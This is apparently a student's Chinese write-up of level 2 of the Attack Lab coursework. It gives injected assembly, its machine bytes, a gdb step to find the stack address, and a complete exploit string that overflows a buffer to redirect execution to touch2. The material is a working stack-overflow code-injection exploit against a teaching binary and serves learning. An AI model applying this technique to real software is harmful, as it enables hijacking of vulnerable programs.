 

cookie 为 0x59b997fa

需要修改rdi寄存器（val）的值和cookie的值相同

（感觉advice已经基本把解题思路说清了）

将cookie的值写入rdi

不用使用jmp，call。使用ret（面向返回编程）



因为要执行我们自己设定的汇编指令，只能在栈内编写

栈顶虽然是从大到小，但是运行是从小到大，因此需要知道栈顶的地址

先写入cookie的值，再将touch2的地址压入栈，ret会去调用touch2

level2.s

```assembly
mov $0x59b997fa, %rdi
pushq $0x4017ec
retq
```

```shell
gcc -c level2.s
objdump -d level2.o > level2.asm
```

level2.asm

```assembly
0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq   
```



查看栈顶

```shell
gdb ctraget
b *0x4017ac
r -q
info register rsp
rsp 0x5561dc78 0x5561dc78
```



##### ans2.txt

```
48 c7 c7 fa 97 b9 59
68 ec 17 40 00
c3
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```
